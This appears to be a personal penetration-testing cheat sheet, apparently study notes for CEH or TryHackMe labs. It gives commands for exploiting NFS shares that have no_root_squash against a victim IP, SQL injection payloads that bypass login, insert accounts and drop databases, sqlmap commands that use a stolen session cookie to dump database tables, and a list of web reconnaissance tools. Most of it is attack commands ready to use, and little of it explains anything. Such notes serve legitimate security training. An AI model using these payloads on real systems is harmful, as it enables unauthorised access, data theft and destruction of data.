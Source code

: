 1. > cat /etc/exports

If you spot "no_root_squash" in the content, means vulnerable to NFS

2. > showmount -e [VICTIM IP]

This enumerates for mountable shares

3. > mkdir /tmp/[NAME THE FOLDER URSELF]

> mount -o rw [VICTIM IP]:/[MOUNTABLE SHARE] /tmp/[FOLDER U NAMED AS ABOVE]

OR

> mount -t nfs [VICTIM IP}:/[MOUNTABLE SHARE] /tmp/[FOLDER U NAMED AS ABOVE]

4. > https://medium.com/@kumarishefu.4507/try-hack-me-write-up-privilege-escalation-linux-privesc-nfs-capstone-challenge-dd69599dcbfa




## SQL Injection

Standard
> ';or 1=1;--

Inserting values into SQL database. Able to log in after that.
> ';insert into login values ('john','apple123');--

Creating database.
> ';create database mydatabase;--

Deleting database.
> ';DROP DATABASE mydatabase;--

**SQLMAP**

Enumerate Databases
> sqlmap -u [URL after loggin in, with "id"] --cookie="[COOKIE FROM DOCUMENT.COOKIE]" --dbs

Enumerate Tables (Alternatively leave out -D to enumerate ALL tables)
> sqlmap -u [URL after loggin in, with "id"] --cookie="[COOKIE FROM DOCUMENT.COOKIE]" -D [DATABASE] --tables

Dump contents of table
> sqlmap -u [URL after loggin in, with "id"] --cookie="[COOKIE FROM DOCUMENT.COOKIE]" -D [DATABASE] -T [TABLE NAME] --dump
## Web Application/Server


https://github.com/BullsEye0/ghost_eye.git  (SERVER)

skipfish (More comprehensive than dirb)     (SERVER/APP)
> skipfish -o [OUTPUT DIR] [TARGET]

https://github.com/urbanadventurer/WhatWeb.git  (WEB APP)

dirsearch.py

HttpRecon (**Run as administrator**): E:\CEH-Tools\CEHv12 Module 13 Hacking Web Servers\Web Server Footprinting Tools\httprecon
